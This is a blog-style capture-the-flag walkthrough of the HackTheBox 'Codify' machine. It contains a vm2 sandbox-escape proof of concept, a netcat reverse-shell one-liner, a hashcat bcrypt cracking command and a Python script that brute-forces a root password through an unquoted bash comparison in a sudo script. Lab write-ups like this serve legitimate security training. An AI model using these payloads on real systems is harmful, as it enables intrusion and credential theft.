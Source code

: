 ```yaml
---
layout: post
title: HackTheBox Codify Walkthrough
image: /assets/img/blog/codify/nodejs.png
accent_image: 
  background: url('/assets/img/blog/codify/nodejs.png') center/cover
  overlay: false
accent_color: '#ccc'
theme_color: '#ccc'
description: >
  In this post you will find a step by step resolution walkthrough of the Codify machine on HTB platform 2023.
invert_sidebar: true
---
```


# HackTheBox Codify Walkthrough
Codify is an easy linux machine that targets the exploitation of a vulnerable nodeJS library to escape a Sandbox environment and gain access to the host machine.
* toc
{:toc}

## Enumeration
To enumerate the machine a first nmap scan to discover the open TCP ports on the machine was performed. Also when the open ports 
were retrieved a more in depth scan including fingerprinting was issued. With the following commands:
~~~bash
# First nmap scan
sudo nmap -sS -p- --min-rate 500 --open 10.10.11.239 -Pn -n -oG recon
# Exhaustive scan of the open ports
nmap -p80,22 -sCV -Pn -n -oN openports 10.10.11.239
~~~

The results obtained by this scans showed some interesting open ports:
![800x400](/assets/img/blog/codify/nmap.png "Nmap enumeration")
* Port 80 is open and is hosting a HTTP server, Apache httpd 2.4.52 
* Port 22 is open and from the obtained banner looks like a ssh service version: OpenSSH 8.9p1

From the nmap scan we can see this is a linux machine, probably a Ubuntu distro.
## Web enumeration
As there are only two ports open and ssh is often not vulnerable by itself, we started enmumeration via TCP 80 port. First fingerprinting the website returns similar information as the obtained executing the nmap scripts. 
Moving on and visiting the website we obtain the main functionality of the site. A module that allows you to test your Node.js code in a sandbox environment and display the output. This looks promissing.
![800x400](/assets/img/blog/codify/nodetester.png "NodeJS code tester")
Further inspection of the available pages we find that there are some limitations explained at `http://codify.htb/limitations`, this looks like there is some kind of sanitization to avoid system command execution. 
Also a list of the available libraries is shown. Cool, we take note. 📝📝 
![800x400](/assets/img/blog/codify/nodesanity.png "NodeJS Sanitization")
On the other hand an about us page was found and there was something revealing how the aplication is handeling the nodeJS code testing. On the last paragraph we could read:
> The vm2 library is a widely used and trusted tool for sandboxing JavaScript. It adds an extra layer of security to prevent potentially harmful code from causing harm to your system.
{:.lead}
Also a link to the github page of the library is present, revealing the use of the version 3.9.16, again noted 📝📝.
![800x400](/assets/img/blog/codify/vm2.png "VM2")

Checking for known vulnerabilities for the node library we found a post on github ([https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244)) 
revealing a vuln on the `handleException()` function which can be used to escape the sandbox and run arbitrary code for `vm2<=3.9.16`, this looks promissing.
The vulnerable code looks like:
~~~js
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('<evil command>');
}
`
console.log(vm.run(code));
~~~
After injecting some "testing" code as a `whoami` or an `ifconfig` we got `Remote Command Execution`. Great! We now can try to get a reverse shell.
![800x400](/assets/img/blog/codify/rce.png "Remote Command Execution")
## Getting a foothold
As we have RCE we set a nc listener and used the following payload:
~~~bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 443 >/tmp/f
~~~
![800x400](/assets/img/blog/codify/nc.png "Reverse shell")

Great we are inside! 😈😈

We are inside but it looks like `svc` user cannot do much. Taking into account there is another user present called `Joshua`, it is possible we need to gain access as him to further enumerate.

## User Pivoting
Most of the times on website folders there are configuration or juicy files that can contain leaked sensitive data. After reviewing the `/var/www/contact` folder we found a tickets.db sqlite database file.
![800x400](/assets/img/blog/codify/db.png ".DB juicy file")

At this point, we could have displayed some of its info directly with the strings command, but to inspect the file in a more visual way, the file was transferred to our machine and displayed with the GUI DBeaver tool. 
After importing the database, two tables were present, tickets and users. Tickets didn't provide any interesting info but users displayed what looks like the hashed credentials of `Joshua`.
![800x400](/assets/img/blog/codify/userdb.png "DBeaver analysis")

To check which hash type is the password encrypted as, a tool named `hashid` was used. The output revealed some probable hashes.
~~~bash
hashid <hash>
~~~
![800x400](/assets/img/blog/codify/hashid.png "Hashid output")

After storing the hash on a file, we tried to crack it with hashcat using a dictionary attack specifying the bcrypt mode and the `rockyou` wordlist. 
~~~bash
hashcat -m 3200 joshua_hash /usr/share/wordlists/rockyou.txt
~~~
![800x400](/assets/img/blog/codify/hashcat.png "Hashcat cracking")
After a couple minutes boom💥💥!!!! The hash was cracked and the password was obtained... (Joshua if you are reading this, use strong passwords!).

Now trying the creds on the system led to a user pivoting and we turned ourselves into joshua.
![800x400](/assets/img/blog/codify/sujoshua.png "Joshua pivoting")

At this point we got the flag located at `/home/joshua/user.txt`
## Privilege Escalation
Looking at our privileges as the user Joshua we checked if he could execute any file with `sudo permissions` as:
~~~bash
sudo -l
~~~
![800x400](/assets/img/blog/codify/sudo.png "Sudo output")

As we can see joshua can exeute a .sh script as the user root. If the script has something we can exploit we probably can get root access.

After reviewing the script, I discovered an unsafe practice: `unquoted variable comparison`. If the right side of the == in a bash script is not quoted, Bash will perform pattern matching instead of treating it as a string.
In this context, with the pattern {valid_password_char}{*}, any character followed by any number of characters can potentially match.
Exploiting this pattern, we could try to bruteforce the root password.

To do this the following python script was created:
~~~python
import string
import subprocess

all_characters = string.ascii_letters + string.digits
password = ""
found = False

while not found:
    for character in all_characters:
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
        output = subprocess.run(command, shell=True, capture_output=True, text=True).stdout

        if "Password confirmed!" in output:
            password += character
            print(password)
            break
    else:
        found = True
~~~

After executing the script we obtained the root password.

![800x400](/assets/img/blog/codify/root.png "Root pivoting")

At this point we successfully pwned the machine and we have got complete control of the system 💀💀💀

Last but not least we retrieved the flag located at `/root/root.txt`

